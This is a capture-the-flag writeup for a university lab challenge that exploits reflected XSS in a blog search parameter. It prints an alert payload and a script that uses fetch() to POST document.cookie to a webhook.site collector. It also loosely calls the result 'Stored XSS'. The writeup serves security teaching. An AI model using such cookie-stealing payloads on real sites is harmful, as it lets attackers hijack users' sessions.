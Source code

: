# Challenge `Just My Boring Cookies` writeup

- Vulnerability:
  - _Endpoint has a **Cross Site Scripting (XSS)** vulnerability_
- Where:
  - _`/?search=` endpoint_
- Impact:
  - _Allows to **obtain our cookies** given to us by the by injecting malicious code in the webpage_

## Steps to reproduce

First we connected to the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22251`. We can see that the server has a search bar for blog posts. If we search for something, we can see that the search is reflected in the page, like this `/?search=`. This means that the server is probably vulnerable to **XSS**.

Since this challenge is fairly simple, we can just try to inject some code in the search bar. We tried to inject `<script>alert(document.cookie)</script>` and it worked! We got the following popup with our cookie:

```SECRET="SSof{YOU_DO_NOT_HAVE_SECRETS}";```

Although we already have the flag, we sent the cookies to a website we control so we can have a Stored XSS. Since we did not have any site of our own we used a online service to collect our https requests [Webhook](https://webhook.site/). 
Now that we have somewhere to store the resquests we sent the following payload:

```html
<script>fetch('https://webhook.site/888f0a4e-7b59-4ac7-93fd-19035f634790', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>
```

After this we received a ``POST`` with the Raw Content of:
```SECRET="SSof{YOU_DO_NOT_HAVE_SECRETS}"```

Now, we not only were able to get the cookie from an alert, but we were also able to send it to a website we control. This means that we now have possession of the **flag**.
